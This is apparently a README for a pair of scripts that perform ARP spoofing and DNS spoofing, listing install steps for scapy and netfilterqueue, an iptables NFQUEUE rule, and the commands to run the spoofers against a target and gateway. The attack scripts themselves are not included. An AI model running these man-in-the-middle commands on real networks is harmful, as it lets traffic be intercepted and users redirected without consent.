 # Usage ARPSPOOF:
```bash
$python spoofi.py -t 10.0.2.4 -g 10.0.2.1
```
- `t` ***Target***
- `g` ***Gateway***


---------------------------------------------------------------------------------------------------------

# Usage DNSPOOF

* Install scupy
```bash
pip install scapy
```
* Install netfilterqueue
```bash
pip install netfilterqueue
```
* Create queue
```bash
iptables -I FORWARD -j NFQUEUE --queue-num 0`
```
* Run arp spoofing script
```bash
python spoofi.py -t target_ip -g gateway_ip
```
* Run dns_spoofing script
```bash
python dns_spoofing
```
Run script with --help to get help
```bash
python dns_spoofing.py --help
```
